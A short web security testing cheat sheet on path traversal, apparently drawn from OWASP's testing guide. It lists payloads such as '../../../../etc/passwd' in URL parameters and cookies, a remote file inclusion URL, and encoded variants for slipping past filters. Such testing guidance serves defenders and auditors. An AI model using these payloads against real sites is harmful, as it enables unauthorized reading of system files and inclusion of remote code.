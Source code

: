 # Path Traversal

## Step 1 Identify parameters

Identify:

* any request parameters that could be used for file-related operations

`http://example.com/getUserProfile.jsp?item=ikki.html`

* any unusual file extensions

`http://example.com/main.cgi?home=index.htm`

* any interesting variable names

`http://example.com/index.php?file=content`

* cookie used by web application for the dynamic generation of pages 

`Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`

## Step 2 Insert malicious string

For example, for Linux/UNIX, we can insert `../../../../etc/passwd`

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

Cookie example: `Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

Includes files and scripts from external website \(remote file inclusion\):

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

To show the source code of a CGI component `http://example.com/main.cgi?home=main.cgi`

## Encoding

URL encode \(once\) Linux

> %2e%2e%2f = ../ %2e%2e/ = ../ ..%2f = ../

Windows:

> %2e%2e%5c = .. %2e%2e = .. ..%5c = ..\

URL encode \(double\) Windows

> %252e%252e%255c = .. ..%255c = ..\

Unicode/UTF-8 Encoding

> ..%c0%af = ../ ..%c1%9c = ..\

## OS/application consideration

Different OS/APIs have different behavior in the parsing of file paths

Source: [https://www.owasp.org/index.php/Testing\_Directory\_traversal/file\_include\_\(OTG-AUTHZ-001](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_%28OTG-AUTHZ-001)

